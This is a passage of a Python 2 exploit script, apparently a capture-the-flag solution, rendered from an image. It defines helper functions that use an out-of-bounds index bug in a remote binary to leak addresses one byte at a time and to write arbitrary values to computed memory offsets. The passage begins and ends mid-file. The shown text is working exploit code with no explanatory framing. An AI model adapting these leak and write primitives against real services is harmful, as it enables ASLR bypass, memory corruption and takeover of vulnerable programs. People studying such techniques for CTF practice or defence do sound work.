 ```python exp_bef.py
    if not len(result): # no result
        return None
    else:
        return result[0]

def leak_one_byte(off_1, off_80):
    r.sendline(str(off_1))
    r.sendline(str(off_80))
    ret = r.recvuntil(" ")
    return int(ret)

def leak_addr(base, off_80, name=None):
    ret_addr = 0
    cnt = 0
    for i in xrange(base, base+6):
        print "leaking %s byte : %d" % (name, cnt+1)
        ret = leak_one_byte(i, off_80)
        ret_addr = ret_addr | ((ret&0xff) << 8*cnt)
        cnt += 1

    return ret_addr

def cal_offset(addr, text_base):
    start_from = text_base + 0x202040
    offset = addr - start_from
    off_80 = offset/80
    off_1 = offset%80

    return off_1, off_80

def leak_far_addr(addr, text_base, name):
    ret_addr = 0
    cnt = 0
    off_1, off_80 = cal_offset(addr, text_base)
    temp = int(math.sqrt(off_80))
    off_1 = (off_80 - temp**2)*80 + off_1

    for i in xrange(off_1, off_1+6):
        print "leaking %s byte : %d" % (name, cnt+1)
        r.sendline(str(i))
        r.sendline(str(temp))
        r.sendline(str(temp))
        ret = int(r.recvuntil(" "))
        ret_addr = ret_addr | ((ret&0xff) << 8*cnt)
        cnt += 1

    return ret_addr

def write_far_addr(addr, text_base, name, value):
    cnt = 0
    off_1, off_80 = cal_offset(addr, text_base)
    temp = int(math.sqrt(off_80))
    off_1 = (off_80 - temp**2)*80 + off_1

    for i in xrange(off_1, off_1+6):
        v = (value>>(8*cnt)) & 0xff
        print "writing %s byte %d : %x" % (name, cnt+1, v)
        r.sendline(str(v))
        r.sendline(str(i))
        r.sendline(str(temp))
        r.sendline(str(temp))
        cnt += 1

```